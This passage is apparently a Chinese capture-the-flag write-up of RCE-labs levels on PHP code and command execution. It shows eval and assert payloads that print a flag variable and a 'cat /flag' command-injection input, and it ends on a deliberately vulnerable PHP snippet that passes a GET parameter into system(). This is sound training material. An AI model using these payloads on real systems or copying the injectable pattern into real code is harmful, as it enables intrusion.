 <font style="color:#000000;">所以GET,POST传参如下</font>

```plain
?action=submit
content=eval('echo $flag;')
```

<font style="color:#000000;">得到flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736950434048-5669a1ab-fe09-4d18-9715-134492e9fd91.png)

<font style="color:#000000;"></font>

<font style="color:#000000;">注意到题上还说”PHP还有许多回调函数也可以直接或者间接的执行PHP代码。“</font>

<font style="color:#000000;">查了资料，assert就可以，但它无法执行关于echo的代码，起初以为是echo是语言构造器的原因，但是用了同为语言构造器的print，发现却能用</font>

<font style="color:#000000;">所以，最后GET,POST也可传参如下</font>

```plain
?action=submit
content=assert(print_r($flag))
```

<font style="color:#000000;">得到flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736948907826-b147caf5-7165-4653-961f-3b8c5668f7aa.png)

## <font style="color:#000000;">（四）</font><font style="color:#000000;">[RCE-labs]Level 3 - 命令执行</font>
<font style="color:#000000;">打开靶场发现以下内容</font>

## ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736951372909-00eaf283-fe07-4834-b561-1778d9513639.png)
<font style="color:#000000;">由于system()函数会通过sh软件连接执行输入的系统命令，所以只需要POST传入访问flag命令就行</font>

```plain
a=cat /flag;
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737124450767-e315173a-34dc-4813-b9c2-9fe5f03e1acf.png)

## <font style="color:#000000;">（五）[RCE-labs]Level 4 - SHELL 运算符</font>
<font style="color:#000000;">进入靶机发现以下题目</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737124467767-57170292-4b96-4989-8acc-d82db997fe77.png)

<font style="color:#000000;">PHP代码如下：</font>

```php
<?php 
  function hello_server($ip){
  system("ping -c 1 $ip");
  }

  isset($_GET['ip']) ? hello_server($_GET['ip']) : null;

highlight_file(__FILE__);

?>
```
